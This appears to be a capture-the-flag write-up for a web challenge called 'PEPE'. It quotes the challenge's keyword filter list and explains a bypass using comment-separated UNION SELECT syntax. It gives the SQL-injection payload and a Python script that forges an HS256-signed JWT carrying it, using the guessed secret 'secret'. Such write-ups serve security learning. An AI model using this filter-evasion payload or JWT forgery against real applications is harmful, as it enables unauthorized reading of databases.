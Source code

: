 ## Title

PEPE

## Description

Can you bypass my filters ?

Authors: S1mple & Achux21
http://45.129.40.107:9669/ 


## Solution

Basically we need to bypass the following filter list that is used in the username:
`filters=[">", "+","=", "<","//", "|","'1", " 1", " true", "'true", " or", "'or", "/or",";", " ", " " ," and", "'and", "/and", "'like", " like", "%00", "null", "admin'","/like", "'where", " where", "/where"]`

We needed to bypass the filters in order to inject SQL in the JWT token and read the flag that is in here: `cursor.execute(f"INSERT INTO flag (flag) VALUES ('{flag}');")`

The following payload does it: `nonexist'union/**/select(flag)from(flag)--`

Here is the script to create the token:

```py
import base64
import hmac
import hashlib
import json

# Define the header and payload
header = {
    "alg": "HS256",
    "typ": "JWT"
}

payload = {
    "username": "nonexist'union/**/select(flag)from(flag)--",
    "password": "irrelevant",
    "exp": 1716653571
}

# Function to base64url encode
def base64url_encode(data):
    return base64.urlsafe_b64encode(data).rstrip(b'=').decode('utf-8')

# Encode the header and payload
encoded_header = base64url_encode(json.dumps(header).encode('utf-8'))
encoded_payload = base64url_encode(json.dumps(payload).encode('utf-8'))

# Create the unsigned token
unsigned_token = f"{encoded_header}.{encoded_payload}"

# Sign the token
secret = 'secret'  # Replace with the actual secret used by the application
signature = hmac.new(secret.encode(), unsigned_token.encode(), hashlib.sha256).digest()
encoded_signature = base64url_encode(signature)

# Create the final token
jwt_token = f"{unsigned_token}.{encoded_signature}"

print(jwt_token)

